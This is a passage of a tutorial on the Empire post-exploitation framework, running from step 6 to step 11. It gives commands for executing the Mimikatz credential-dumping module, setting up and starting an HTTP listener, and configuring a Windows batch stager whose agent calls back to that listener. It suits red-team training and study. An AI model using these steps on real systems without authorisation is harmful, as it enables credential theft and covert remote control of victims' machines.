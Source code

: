 #### **6. Execute the Module**
- **Description:** Run the configured module.
- **Command:**
  ```bash
  (Empire: credentials/mimikatz) > execute
  ```
- **Explanation:**
  - `execute` runs the module with the configured options.

#### **7. Create a Listener**
- **Description:** Set up a listener to receive connections from agents.
- **Command:**
  ```bash
  (Empire) > uselistener http
  ```
- **Explanation:**
  - `uselistener` is used to configure and start a listener (e.g., `http` listener).

#### **8. Configure Listener Options**
- **Description:** Set options for the listener, such as the IP address and port.
- **Command:**
  ```bash
  (Empire: listeners/http) > set Host http://192.168.1.10:8080
  ```
- **Explanation:**
  - `set` allows you to specify the listener's options, like `Host`, which sets the URL where the listener will operate.

#### **9. Start the Listener**
- **Description:** Start the configured listener.
- **Command:**
  ```bash
  (Empire: listeners/http) > execute
  ```
- **Explanation:**
  - `execute` starts the listener, making it ready to accept connections from agents.

#### **10. Generate a Stager**
- **Description:** Create a stager to deploy an agent on the target machine.
- **Command:**
  ```bash
  (Empire) > usestager windows/launcher_bat
  ```
- **Explanation:**
  - `usestager` allows you to select and configure a stager, like `windows/launcher_bat`, which creates a batch file to deploy an agent.

#### **11. Configure Stager Options**
- **Description:** Set the listener and other options for the stager.
- **Command:**
  ```bash
  (Empire: stager/windows/launcher_bat) > set Listener http
  ```
- **Explanation:**
  - `set Listener` specifies the listener the stager will connect to once deployed.
